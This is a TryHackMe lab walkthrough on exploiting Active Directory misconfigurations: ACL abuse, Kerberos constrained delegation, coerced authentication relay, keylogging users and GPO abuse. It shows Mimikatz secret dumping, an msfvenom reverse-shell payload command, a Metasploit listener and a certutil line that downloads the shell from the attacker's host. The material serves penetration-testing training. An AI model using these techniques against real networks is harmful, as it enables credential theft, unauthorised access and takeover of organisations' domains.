# [Exploiting Active Directory](https://tryhackme.com/r/room/exploitingad)


## Task 1 - Introduction

This network is the continuation of the [Breaching AD](https://tryhackme.com/jr/breachingad) and [Enumerating AD](http://tryhackme.com/jr/adenumeration) networks. Please make sure to complete these networks before continuing with this one. Also, note that we will discuss AD objects extensively. If you need a refresher, have a quick reskim of [this room](https://tryhackme.com/jr/activedirectorybasics). Now that we have breached AD and enumerated the structure of the domains, we will explore different methods that could be used to exploit misconfigurations that may have surfaced from our enumeration.

### AD Exploitation

Now that we have performed our internal recon and understand the lay of the land regarding the AD structure and environment, it is time for the exploitation phase. This phase exploits misconfigurations to perform a combination of lateral movement and privilege escalation until we reach a suitable position to execute our goals, as shown in the diagram below. This phase is usually combined with persistence to ensure that we can't lose the new position we gain, but this will be covered in the next room. It is also usually combined with additional enumeration since our new position might allow us to acquire additional information about the lay of the land.


### Learning Objectives

In this network, we will cover several methods that can be used to exploit AD misconfigurations. This is by no means a complete list, as available methods are usually highly situational and dependent on the AD structure and environment. However, we will cover the following techniques for exploiting AD:

* AD Delegation
* Forcing Authentication Relays
* Group Policy Objects
* Targeting AD Users
* Domain Trusts
* Silver and Golden Tickets

**AttackBox**

If you are using the Web-based AttackBox, you will be connected to the network automatically if you start the AttackBox from the room's page. You can verify this by running the ping command against the IP of the THMDC.za.tryhackme.loc host. **Note that the suffix for this network and the persisting AD network is .loc and not .com.** We do still need to configure DNS, however. Windows Networks use the Domain Name Service (DNS) to resolve hostnames to IPs. Throughout this network, DNS will be used for the tasks. You will have to configure DNS on the host on which you are running the VPN connection. In order to configure our DNS, run the following command:


Remember to replace $THMDCIP with the IP of THMDC in your network diagram. You can test that DNS is working by running:

`nslookup thmdc.za.tryhackme.loc`

This should resolve to the IP of your DC.

**Note: DNS may be reset on the AttackBox roughly every 3 hours. If this occurs, you will have to restart the systemd-resolved service. If your AttackBox terminates and you continue with the room at a later stage, you will have to redo all the DNS steps.**

You should also take the time to make note of your VPN IP. Using `ifconfig` or `ip a`, make note of the IP of the **exploitad** network adapter. This is your IP and the associated interface that you should use when performing the attacks in the tasks.

**Other Hosts**

If you are going to use your own attack machine, an OpenVPN configuration file will have been generated for you once you join the room. Go to your [access](https://tryhackme.com/access) page. Select 'EnumeratingAD' from the VPN servers (under the network tab) and download your configuration file.


Use an OpenVPN client to connect. This example is shown on a Linux machine; similar guides to connect using Windows or macOS can be found at your [access](https://tryhackme.com/r/access) page.


The message "Initialization Sequence Completed" tells you that you are now connected to the network. Return to your access page. You can verify you are connected by looking on your access page. Refresh the page, and you should see a green tick next to Connected. It will also show you your internal IP address.


**Note:** You still have to configure DNS similar to what was shown above. It is important to note that although not used, the DC does log DNS requests. If you are using your machine, these logs may include the hostname of your device.

**Kali**

If you are using a Kali VM, Network Manager is most likely used as DNS manager. You can use GUI Menu to configure DNS:

* Network Manager -> Advanced Network Configuration -> Your Connection -> IPv4 Settings
* Set your DNS IP here to the IP for THMCHILDDC in the network diagram above
* Add another DNS such as 1.1.1.1 or similar to ensure you still have internet access
* Run sudo systemctl restart NetworkManager and test your DNS similar to the steps above.

### Requesting Your Credentials

To simulate an AD breach, you will be provided with your first set of AD credentials. Once your networking setup has been completed, navigate to http://distributor.za.tryhackme.loc/creds to request your credential pair. Click the "Get Credentials" button to receive your credential pair that can be used for initial access.

This credential pair will provide you RDP and SSH access to THMWRK1.za.tryhackme.loc. THMWRK1 can be seen as a jump host into this environment, simulating a foothold that you have achieved. You can use Remmina or any other similar Remote Desktop client to connect to this host for RDP. Remember to specify the domain of za.tryhackme.loc when connecting.

For SSH access, you can use the following SSH command:

```
ssh za.tryhackme.loc\\<AD Username>@thmwrk1.za.tryhackme.loc
```

When prompted, provide your account's associated password. Although RDP can be used for all tasks, SSH is faster.

### Answer the questions below

* I am ready to start my AD exploitation journey.

* I am connected to the network using my preferred method of choice and have requested my credentials

## Task 2 - Exploiting Permission Delegation

Active Directory can delegate permissions and privileges through a feature called Permission Delegation (not to be confused with Kerberos Delegation that will be discussed in the next task). Delegation is what makes AD so powerful in organisations. Imagine we work for an organisation that has 50000 employees. Since we care about security, we only have three users that have access to DA credentials. It would be impossible for those three users to field all requests from the users, such as resetting their passwords. Using Delegation, we can delegate the permission to force change a user's password to the Helpdesk team, meaning they now have a delegated privilege for this specific function. In principle, to keep Delegation secure, the principle of least privilege should be followed. However, in large organisations, this is easier said than done. In this task we will look at exploiting some Delegation misconfigurations.

### Permission Delegation

Permission Delegation exploits are often referred to as ACL-based attacks. AD allows administrators to configure Access Control Entries (ACEs) that populates Discretionary Access Control Lists (DACLs), hence the name ACL-based attacks. Almost any AD object can be secured with ACEs, which then describe the allowed and denied permissions that any other AD object has against the target object.

However, if these ACEs are misconfigured, it may be possible for an attacker to exploit them. Let's look at our example again. If the IT Support team were granted the ForceChangePassword ACE over the Domain Users group, this would be considered insecure. Sure they would be able to reset the passwords of employees that forgot their passwords, but this misconfiguration would allow them to also reset the passwords of privileged accounts, such as the accounts that are members of the Domain Admins group essentially allowing for privilege escalation.

### Exploiting ACEs

A significant amount of ACEs can be misconfigured, and the exploits for each vary. The [Bloodhound documentation](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#) assists in explaining enumerated ACEs and how they can be exploited. However, we will look at a couple of notable ones here:

* **ForceChangePassword:** We have the ability to set the user's current password without knowing their current password.
* **AddMembers:** We have the ability to add users (including our own account), groups or computers to the target group.
* **GenericAll:** We have complete control over the object, including the ability to change the user's password, register an SPN or add an AD object to the target group.
* **GenericWrite:** We can update any non-protected parameters of our target object. This could allow us to, for example, update the scriptPath parameter, which would cause a script to execute the next time the user logs on.
* **WriteOwner:** We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
* **WriteDACL:** We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
* **AllExtendedRights:** We have the ability to perform any action associated with extended AD rights against the target object. This includes, for example, the ability to force change a user's password.

In order to exploit these ACEs, we will need a method to interact with AD to make these requests. The two best options for this are the [AD-RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) PowerShell cmdlets or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit). Depending on the breach and the detection tools in the environment, one option may be stealthier. In this task we will show both.

### Bloodhound

Sharphound has already been executed for you and attached as a task file. Start Bloodhound on the AttackBox or your Kali machine and ingest the data. You are, however, welcome to rerun Sharphound yourself using the steps provided in the [Enumerating AD room](https://tryhackme.com/room/adenumeration). Note: if you get `Unable to connect to LDAP, verify your credentials` make sure you have the domain set correctly. We provided a ZIP of SharpHound data as a taskfile. On the AttackBox, you can find the ZIP file under `/root/Rooms/ExploitingAD/`.  First, we will need to start neo4j:


In another Terminal tab, run `bloodhound --no-sandbox`. This will show you the authentication GUI:



The default credentials for the neo4j database will be `neo4j:neo4j`. Use this to authenticate in Bloodhound. Once authenticated, you can drag and drop the two zips on the Bloodhound screen. Once the data is ingested, we can start enumerating attack paths again.

### Privilege Escalation

If we search for our user account that was assigned in Task 1 in Bloodhound, we see that we don't have a lot of permissions. We have the ability to RDP into THMWRK1, but this will only provide us with low-privileged access.


Since the domain is tiered, our first step will be to compromise Tier 2 infrastructure. We need to compromise the Tier 2 Admins group since this group has administrative privileges on all workstations. Let's ask Bloodhound if there is perhaps a road that we can follow to compromise this group. Add your user account as the start position and the Tier 2 Admins group as the end position.


Bloodhound shows us a very interesting path. It seems that there was a slight bit of Permission Delegation in this domain. An administrator has misconfigured the Permission Delegation of the _IT Support_ group by providing the _Domain Users_ group with the AddMembers ACE. This means that any member of the _Domain Users_ group (including our account) can add accounts to the _IT Support_ Group. Furthermore, Bloodhound shows that the _IT Support_ Group has the ForceChangePassword ACE for the _Tier 2 Admins_ group members. This is not really a misconfiguration since Tier 2 admins are not that sensitive, but it provides a very potent attack path when combined with the initial misconfiguration. Let's exploit it!

### AddMember

The first step in this attack path is to add our AD account to the _IT Support_ group. We will use the **Add-ADGroupMember** PowerShell cmdlet from the AD-RSAT toolset for this. Start PowerShell (either in RDP or via SSH) on the THMJMP1 host and run the following command to add your account:


We can verify that the command worked by using the **Get-ADGroupMember** cmdlet:


If everything worked, you should see your account as a member.

### ForceChangePassword

Now that we are a member of the IT Support group, we have inherited the ForceChangePassword Permission Delegation over the Tier 2 Admins group. First, we need to identify the members of this group to select a target. We can use the **Get-ADGroupMember** cmdlet again to assist with this:


Make a note of the username of one of these accounts. **Since the network is shared, it might be best to select one further down in the list.** We will use the **Set-ADAccountPassword** AD-RSAT cmdlet to force change the password:


**Note: If you get an Access Denied error, your permissions have not yet propagated through the domain. This can take up to 10 minutes. The best approach is to terminate your SSH or RDP session, take a quick break, and then reauthenticate and try again. You could also run `gpupdate /force` and then disconnect and reconnect, which in certain cases will cause the synchronisation to happen faster.**

If this step worked, you should now be able to authenticate to THMWRK1 using this target account with its new password. You currently have administrative access to this workstation. Congratulations! You have officially escalated your privileged to Tier 2 Administrator by exploiting Permission Delegations.

### Answer the questions below

* Which ACE would allow you to update any non-protected parameter of a target object?

* What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)?

## Task 3 - Exploiting Kerberos Delegation

Next, we will take a look at Kerberos Delegation. When you talk about AD Delegation, this is usually what is being discussed, not Permission Delegation.

### Kerberos Delegation

The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting. Without delegation, we would probably use an AD service account and provide it with direct access to the database. When requests are made on the web application, the service account would be used to authenticate to the database and recover information.

However, we can allow this service account to be delegated to the SQL server service. Once a user logs into our web application, the service account will request access to the database on behalf of that user. This means that the user would only be able to access data in the database that they have the relevant permissions for without having to provide any database privileges or permissions to the service account itself.

### Constrained vs Unconstrained

There are two types of Kerberos Delegation. In the original implementation of Kerberos Delegation, Unconstrained Delegation was used, which is the least secure method.  In essence, Unconstrained Delegation provides no limits to the delegation. In the background, if a user with the "TRUSTED_FOR_DELEGATION" flag set authenticates to a host with Unconstrained Delegation configured, a ticket-granting ticket (TGT) for that user account is generated and stored in memory so it can be used later if needed. Suppose an attacker can compromise a host that has Unconstrained Delegation enabled. In that case, they could attempt to force a privileged account to authenticate to the host, which would allow them to intercept the generated TGT and impersonate the privileged service. If you want to see an example of the exploitation of Unconstrained Delegation, have a look [here](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976).

To combat the security failings of Unconstrained Delegation, Microsoft introduced Constrained Delegation in 2003. Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. The following are examples of services that can be configured for delegation:

* HTTP - Used for web applications to allow pass-through authentication using AD credentials.
* CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.
* LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.
* HOST - Allows delegation of account for all activities on the host.
* MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.

Exploiting Constrained Delegation is usually more complex than exploiting Unconstrained Delegation since the delegated account can't just be used for everything. However, it can still be used for some powerful exploitation. An example of this would be if we were able to compromise an AD account that had constrained delegation configured. By knowing the plaintext password or even just the NTLM hash of this account, we could generate a TGT for this account, then use the TGT to execute a ticket-granting server (TGS) request for any non-sensitive user account in order to access the service as that user. Imagine impersonating an account with access to a sensitive database, for example.

### Resource-Based Constrained Delegation

So there are actually three types of Kerberos Delegation. But this one deserves to be mentioned on its own. Introduced by Microsoft in 2012, Resource-Based Constrained Delegation (RBCD) once again provided additional restrictions on Kerberos Delegation for security. RBCD changes the delegation model entirely. Instead of specifying which object can delegate to which service, the service now specifies which objects can delegate to it. This allows the service owner to control who can access it. In our web application example, this means that instead of specifying that the web service account can delegate to the database service to access the database, we can now specify that on the database service that the web service account is allowed to delegate access to it.

Let's say that we have permission to configure RBCD for a service. This means we have the ability to set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute for the AD Object. We can populate this attribute with the details of an AD account that we have access to. To now gain access to the service, we can generate a TGT for the account we control, which will allow us to interact with this service. If you want a detailed example of RBCD exploitation, take a look [here](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/).

### Constrained Delegation Exploitation

We will exploit Constrained Delegation for this task. The first thing we need to do is enumerate available delegations. Let's use our new privileged user for the network couple of commands. We can use the **Get-NetUser** cmdlet of PowerSploit for this enumeration by running the following command:


Based on the output of this command, we can see that the svcIIS account can delegate the HTTP and WSMAN services on THMSERVER1. You would think that this means we can only access websites on behalf of impersonated users. However, PowerShell Remoting uses the HTTP and WSMAN services as well. The ideal option would be to impersonate a Tier 1 Admin since this would provide us with administrative access over THMSERVER1.

If you were to perform proper post-exploitation enumeration of THMWRK1, you would find that there is a service on the host running as the svcIIS user. Since we have administrative access now, we can use this to dump LSASecrets, part of the Windows Registry Hive where credentials are stored for features such as Windows services. Let's use [Mimikatz](https://github.com/gentilkiwi/mimikatz/security) to dump the secrets:

```
C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM


mimikatz # lsadump::secrets
Domain : THMWRK1
SysKey : redacted

Local name : THMWRK1 ( S-1-5-21-3226461851-763325627-4205969673 )
Domain name : ZA ( S-1-5-21-3885271727-2693558621-2658995185 )
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret  : $MACHINE.ACC
cur/text: redacted
    NTLM:redacted
    SHA1:redacted
old/text: redacted
    NTLM:redacted
    SHA1:redacted

Secret  : DefaultPassword
cur/text: redacted
old/text: redacted

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: redacted

mimikatz #
```

Let's run through the two commands:

* token::elevate - To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
* lsadump::secrets - Mimikatz interacts with the registry hive to pull the clear text credentials.


Now that we have access to the password associated with the svcIIS account, we can perform a Kerberos delegation attack. We will use a combination of [Kekeo](https://github.com/gentilkiwi/kekeo) and [Mimikatz](https://github.com/gentilkiwi/mimikatz/security). You can use another window for Mimikatz, but make sure to exit out of Mimikatz after the `token::elevate` command, otherwise the tickets will be loaded in the wrong context later on. We will use Kekeo to generate our tickets and then use Mimikatz to load those tickets into memory. Let's start by generating the tickets:


We first need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services:


Parameters explained:

* user - The user who has the constrained delegation permissions.
* domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
* password - The password associated with the svcIIS account.

Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1:


Parameters explained:

* tgt - We provide the TGT that we generated in the previous step.
* user - The user we want to impersonate. Since t2_ accounts have administrative access over workstations, it is a safe assumption that t1_ accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate.
* service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service.

Run the command again, this time for the WSMAN service. Now that we have the two TGS tickets, we can use Mimikatz to import them:


You can exit Mimikatz and run `klist` if you want to verify that the tickets were imported. Now that the tickets are imported, we can finally create our PSSession on THMSERVER1:


With the exploitation of Constrained Delegation, we now have privileged access to THMSERVER1!

### Answer the questions below

* Which Kerberos Delegation type allows for delegation of all services?

* Which Kerberos Delegation type allows the service to specify who is allowed to delegate to it?

* Which Constrained Delegation service allows access to the file system of the system via delegation?

* What is the value of the flag stored in the Desktop directory of the Administrator user on THMSERVER1 (flag2.txt)?

## Task 4 - Exploiting Automated Relays

In this task we will take a look at some automated relays. Authentication attempts are constantly flying across the network, and as shown in the Breaching AD room, if we are lucky, we can intercept some of these challenges to gain access. But what if we don't like to wait? What if we can coerce authentication to occur?

Although we already have privileged access to THMSERVER1, we could be in a position where we did not have access to a constrained delegation exploit. This is another excellent attack that can be performed to gain privileged access to hosts.

### Machine Accounts

All Windows hosts have a machine account. Essentially, this is the user account associated with the machine. Unless someone tampered with the account of the host, the passwords of these accounts are uncrackable. By default, they are 120 characters (UTF16) long and are automatically rotated every 30 days.

In AD, these machine accounts are used quite a bit in different services. Different domain controllers use their machine accounts to synchronise AD updates and changes. When you request a certificate on behalf of the host you are working on, the machine account of that host is used for authentication to the AD Certificate Service.

There is an exceptional case in AD, where one machine has admin rights over another machine. Essentially in the AD configuration, administrative permissions over a host have been granted to another host. Again, this is expected functionality such as domain controllers or SQL clusters that must be synchronised. However, these instances provide a very interesting attack vector for coercing authentication.

We first need to identify cases where a machine account has administrative access over another machine. We can use Bloodhound for this, but it means we will have to write some custom cypher queries. Click the "Create Custom Query" in the Analysis tab in Bloodhound:


We want to write the following query:

```
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```

This query will attempt to find instances where a computer has the "AdminTo" relationship over another computer. You should see output similar to this:


This is very interesting. It shows us that the THMSERVER2 machine account has administrative privileges over the THMSERVER1 machine.

### The Printer Bug

_It's not a bug, it's a feature - Microsoft._

Seriously, when this was reported, Microsoft responded that this was a feature. The printer bug is a "feature" of the MS-RPRN protocol (PrintSystem Remote Protocol), which allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address. There have been a few of these bugs in recent years: Spooler, PetitPotam, PrintNightmare. Microsoft claims that the only bug is that some of these did not require AD credentials at all, but this issue has been resolved through security patches.

Therefore, to exploit this, apart from machine account administrative privileges, we also need to meet the following four conditions :

1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.

Condition 1 and 2 have been met already. The only two we need to ensure works are conditions 3 and 4.

### Print Spooler Service

We need to determine if the Print Spooler service is running. Since we don't have access to THMSERVER2, we need to query from the network perspective. In this case, we can use a WMI query from our SSH session on THMWRK1 to query the service's current state:


The output from the cmdlet verifies that the service is running. If we get an access denied error, you could perhaps attempt the PowerShell command of `Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc`. However, Microsoft has been cracking down viewing these ports from the network's perspective. If both give you an error, you may just need to take a leap of faith. Thus, condition three has been met.

### SMB Signing

In order to relay the coerced authentication attempt, SMB signing should not be enforced. It should be noted that there is a difference between SMB signing being allowed and SMB signing being enforced. Since some legacy systems do not support SMB signing, by default, the configuration of SMB is that signing is allowed but not enforced, meaning that it will only be used if supported. Since we will be hosting a malicious SMB server, we can ensure our server does not support signing, forcing the target not to sign the SMB authentication attempt.

To verify that THMSERVER1 and THMSERVER2 do not have SMB signing enforced, we can use Nmap on our AttackBox:


We can see that SMB signing is enabled but not enforced based on the output. This means all our conditions are met, and we can start the attack!

### Exploiting Authentication Relays

**Note: This attack can be unstable. Abusing the Print Spooler service may cause it to crash, and a callback is not always guaranteed. For this reason, the previous task already provided you with the permissions required to continue. However, understanding authentication relays and how to force them is essential for AD exploitation. As such, the steps to perform such an attack are provided below. You can decide to give it a go, but a callback is not guaranteed. If it does not work, move on to the next task and perhaps explore this again at the end of your room journey.**

We will be using [SpoolSample](https://github.com/leechristensen/SpoolSample) to exploit the authentication relay. It is a C# exploit but has already been compiled for you and stored in the `C:\Tools\` directory on THMWRK1.  We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us on our AttackBox and then [Impacket](https://github.com/SecureAuthCorp/impacket)'s [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication attempt THMSERVER1. Note that if you are using your own VM, you will need to make sure you have the updated version of Impacket that supports SMBv2.

The first step is to set up the NTLM relay. On our AttackBox, we can use the following:


If we specify the hostname of THMSERVER1 instead of the IP, the host could request that we use Kerberos authentication instead of NTLM. Hence we should specify the IP instead. With the relay listening, we can now coerce THMSERVER2 to authenticate to us. In an SSH terminal on THMWRK1, execute the following:


Your attacker IP should correspond with your tunX interface for the network. If all goes well, you should have received an authentication attempt and a relay to THMSERVER1.


This output resembles what would happen if you used the `-c 'whoami /all'` command. However by specifying no command, you should now have performed a hashdump. These credentials can now be used to get a shell on the host!

### Answer the questions below

* How often (in days) are the passwords of Windows machine accounts rotated by default?

* What should not be enforced if we want to relay an SMB authentication attempt?

* What is the value of the flag stored in the Desktop directory of the Administrator.ZA user on THMSERVER1 (flag3.txt)?

## Task 5 - Exploiting AD Users

We have gotten quite far with our exploitation up to this point. We have full administrative access to workstations and servers. Essentially, we can perform post-exploitation on almost any Tier 1 and Tier 2 system. But we still want to go further. This next task can also be seen as post-exploitation but is often an excellent thing to use when we are still performing exploitation to reach a suitable position for goal execution. It is time for us to target AD users.

### Users and User Behavior

_The factory of the future will only have two employees. A human and a dog. The human will be there to feed the dog. The dog will be there to bite the human if they try to touch something. - Warren Bennis_

Users are, unfortunately, often the weakest link in the security chain. Just think about weak passwords and bad habits, such as granting overly permissive permissions. It would be ignorant and ineffective to overlook this attack surface. While it is good to build up a proper enumeration and attack methodology against AD users, in this task, we will focus on two elements:

* Credential Management - How users store their credentials. In AD, this is quite important since users may have multiple sets of credentials and remembering all of them can be a hassle.
* Keylogging - Often, during exploitation, we need to understand how normal users interact with a system. Together with screengrabs, Keylogging can be a useful tool to gain this understanding from an attacker's perspective.

### Hunting for Credentials

Now that we have compromised THMSERVER1, we should probably look around to see if there is any useful information. Have a look at the user directories and see if there is some useful information in any of them.

Your enumeration efforts should lead you to a .kdbx file. A quick Google should confirm our suspicion that this file is indeed very valuable! We can use Meterpreter's download command to recover this file.

This file seems to be a credential database. The issue, however, is that the database is encrypted with a password. We could attempt to crack the password, but anyone who uses a credential database usually has the savvy to make sure the initial password is secure. We may have more success seeing how the user interacts with this database.

### SYSTEM is Sometimes Too Privileged

Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell is running in the context of that user.

Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a Meterpreter shell. If you need a recap on using Meterpreter and Metasploit, [here is a module on its use](https://tryhackme.com/module/metasploit). However for a quick rundown, you can use the following command to generate a PowerShell meterpreter payload:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```

You can then also use the following to create the associated listener in the msfconsole:

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"
```

You can host your meterpreter shell using a Python webserver and then copy it using something like this:

```
certutil.exe -urlcache -split -f http:///shell.ps1
```

Once you have a meterpreter shell, you can continue. The first step is to see if the users have any running processes on this machine:


**Note:** If you do not see an explorer.exe process for the trevor.local user, you can start the process yourself by performing the following steps:

1. Reset the password of the trevor.local user using the following command: `net user trevor.local <chosen password>`
2. Run the following in powershell: `C:\auto-login.ps1 trevor.local <chosen password> THMSERVER1`
3. Reboot the server using `shutdown -r`
4. Once the server is back online, you should see the explorer process.

It seems like we are lucky! The user has an active session on THMSERVER1. Let's migrate to a process of this user. The safest bet is usually sometime like explorer.exe:


We can confirm that we are now running in the context of our target using the getuid command:


Now we are ready to start our keylogger:


Now we have to be patient and wait. If we are lucky, we will capture some credentials! Give it a couple of minutes, and then run the following to dump captured keystrokes:


This is a straightforward example of targeting AD users. There is a lot more that can be done. It is essential to include user targeting in your exploitation methodology for AD. To answer the questions for this task you will need Keepass. It has been installed on the AttackBox for you so you can just search for and run the application. If you are using your own VM, on most Linux distros `sudo apt install keepassx` will work. Or you can download it from [here](https://keepass.info/download.html). Also make sure to use the meterpreter `download` command to download the Keepass database to you host. If you are using Kali, make sure that the kali user owns the database file before you open it, otherwise it might lock the database and give you incorrect results.

Although persistence will only be discussed in the next room, now might be a good time to create a local account on THMSERVER1 and grant it admin rights so you have a good foothold. Since this is not really needed for the rest of the tasks, if you want to do this, you will need to do a bit of research on this yourself.

### Answer the questions below

* What application is used to open the kdbx credential database?

* What meterpreter command do we use to move from SYSTEM to user context?

* What is the password of the credential database?

* What is the value of the flag stored in the credential database?

## Task 6 - Exploiting GPOs

Keylogging the user allowed us to decrypt their credential database, providing us with credentials that can be useful to further our goal of AD exploitation, namely the svcServMan account. We need to perform a bit of enumeration to figure out what these credentials will be useful for. Luckily for us, we already have Sharphound data that we can use. Using the search feature in Bloodhound, let's review the permissions that the discovered account has:



One permission, in particular, stands out for this account, ownership over a Group Policy Object (GPO). Furthermore, when we do a bit of investigation, it seems like this GPO is applied to our THMSERVER2 machine:



This may provide us with the ideal opportunity to further our AD exploitation!

### Group Policy Objects

Remember when we discussed the SYSVOL directory in Enumerating AD? This is the directory where AD GPOs are stored to be replicated to domain-joined machines. A GPO is a virtual collection of policy settings. Each GPO has a unique name, called a GUID. That's why if you try to read the contents of the SYSVOL directory, it won't make a lot of sense with all the random names.

Each Windows computer has a Local Policy Configuration. This contains several notable configurations such as:

* Application configuration for services such as the Firewall, Anti-Virus, and Applocker.
* Local Group membership such as the Administrator or Remote Desktop Users groups.
* Startup configuration such as scripts that should be executed.
* Security and protocol settings such as SMBv1 support.

These are just a few examples. There are a significant amount of configuration options that can be set.

### Group Policy Management

If you only have one Windows computer, it is easy to change the local policy configuration directly on the host. However, you need a mechanism to deploy a configuration from a central location in large organisations. This is where Group Policy Management (GPM) comes into play. Instead of defining policies locally on each machine, GPM allows us to define policies directly on the AD structure. Essentially, we can define GPOs for AD objects, such as a specific OU or group.

Domain-joined computers would then pull all policies from SYSVOL periodically and apply the relevant ones. By default, policies are replicated every 15 minutes through the gpupdate application. We can, however, also manually execute this application from Command Prompt to apply policies instantly.

### Exploiting GPOs

Although there are several ways in which GPOs can be exploited, we will stick with the simple solution of adding an AD account we control to both the local Administrators and local Remote Desktop Users groups. This will allow us administrative privileges on THMSERVER2 and the ability to RDP in. We could also use the exposed SSH port, but not many organisations have upgraded to providing SSH access. Hence, RDP access or conventional lateral movement techniques like SMBExec are safer.

